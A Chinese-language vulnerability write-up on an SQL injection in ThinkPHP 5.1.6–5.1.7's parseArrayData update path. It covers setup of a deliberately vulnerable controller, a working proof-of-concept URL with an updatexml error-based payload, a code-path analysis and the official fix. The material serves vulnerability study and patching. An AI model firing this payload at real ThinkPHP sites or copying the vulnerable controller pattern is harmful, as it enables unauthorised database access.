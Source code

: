 5.1.6 \<= Thinkphp \<= 5.1.7（非最新的 5.1.8 版本也可利用）
===========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update**
方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData**
方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致
**SQL注入漏洞** 的产生

二、漏洞影响
------------

5.1.6\<=ThinkPHP\<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.7"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->where(['id' => 1])->update(['username' => $username]);
            return 'Update success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId26.png)

### 漏洞分析

![2.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId28.png)

首先在官方发布的 **5.1.9**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case**
语句之前出现过 **insert** 注入，所以比较可疑。

![3.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId29.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了
**Connection** 类的 **update**
方法，该方法又调用了 **\$this-\>builder** 的 **insert** 方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId30.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData**
方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞**
，现已修复，然而却多了 **default**
代码段，而这段代码也是在新版本中被删除的。

![5.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId31.png)

我们跟进到 **parseArrayData**
方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的
**insert** 注入一样，用 **str\_replace**
将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId32.png)

上面 **第15行** 的 **\$result** 相当于 **\$a(\'\$b(\$c)\')** 其中
**\$a、\$b、\$c** 均可控。最后形成的 **SQL** 语句如下：

    UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1;

接着我们想办法闭合即可。我们令 **\$a =
updatexml(1,concat(0x7,user(),0x7e),1)\^** 、 **\$b = 0** 、 **\$c = 1**
，即：

    UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8.png](./resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
